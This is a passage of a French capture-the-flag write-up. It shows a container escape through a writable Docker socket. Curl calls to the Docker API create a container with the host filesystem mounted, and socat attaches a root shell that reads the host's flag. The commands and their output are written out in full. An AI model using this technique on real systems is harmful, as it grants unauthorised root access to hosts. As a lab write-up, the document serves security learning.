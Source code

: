 ```shellsession
        |-- 172.17.255.255
           /32 link BROADCAST
```

L'utilisateur root a un fichier `flag.txt` lisible mais il n'y a rien d'intéressant :

```shellsession
harrison@harrison:/home/harrison$ cat /root/flag.txt
Nope. No flags here. Where do you think you are?
```

## The escapist

Bien que l'on ne soit pas root et que je ne vois pas de méthodes particulières de le devenir sur ce container, j'ai tout de même un accès en écriture sur `/var/run/docker.sock`.

Je peux me baser sur la méthodologie présente sur [Linux Privilege Escalation - HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-docker-socket) qui consiste à envoyer des requêtes HTTP sur le fichier socket en l'absence des commandes Docker :

```shellsession
harrison@harrison:/home/harrison$ curl -XGET --unix-socket /var/run/docker.sock http://localhost/images/json
[{"Containers":-1,"Created":1555615921,"Id":"sha256:6275c2bd4f72c6c417458fa6caecf2bc23bf823298650334c3c3bd42579aa95f","Labels":null,"ParentId":"sha256:48023286ce2db59417c29372f464aa5423a18d583f925c6173d205ccccc3df1f","RepoDigests":null,"RepoTags":["cont1:v1"],"SharedSize":-1,"Size":345807155,"VirtualSize":345807155},{"Containers":-1,"Created":1552350017,"Id":"sha256:94e814e2efa8845d95b2112d54497fbad173e45121ce9255b93401392f538499","Labels":null,"ParentId":"","RepoDigests":["ubuntu@sha256:017eef0b616011647b269b5c65826e2e2ebddbe5d1f8c1e56b3599fb14fabec8"],"RepoTags":["ubuntu:latest"],"SharedSize":-1,"Size":88908191,"VirtualSize":88908191}]
harrison@harrison:/home/harrison$ curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d '{"Image":"sha256:6275c2bd4f72c6c417458fa6caecf2bc23bf823298650334c3c3bd42579aa95f","Cmd":["/bin/sh"],"DetachKeys":"Ctrl-p,Ctrl-q","OpenStdin":true,"Mounts":[{"Type":"bind","Source":"/","Target":"/host_root"}]}' http://localhost/containers/create
{"Id":"bbb0103221a88b370f654897c3b7d18c9621c32cdc3f66fab898ae3c6fad482d","Warnings":null}
harrison@harrison:/home/harrison$ curl -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/bbb0103221a88b370f654897c3b7d18c9621c32cdc3f66fab898ae3c6fad482d/start
harrison@harrison:/home/harrison$ socat - UNIX-CONNECT:/var/run/docker.sock
POST /containers/bbb0103221a88b370f654897c3b7d18c9621c32cdc3f66fab898ae3c6fad482d/attach?stream=1&stdin=1&stdout=1&stderr=1 HTTP/1.1
Host:
Connection: Upgrade
Upgrade: tcp

HTTP/1.1 101 UPGRADED
Content-Type: application/vnd.docker.raw-stream
Connection: Upgrade
Upgrade: tcp

id
'uid=0(root) gid=0(root) groups=0(root)
pwd
/home/harrison
hostname
bbb0103221a8
cd /host_root
cd root
ls
        flag.txt
cat flag.txt
IDo you think you are out?


Just kidding, here is your flag: 1xcDF933mce
```
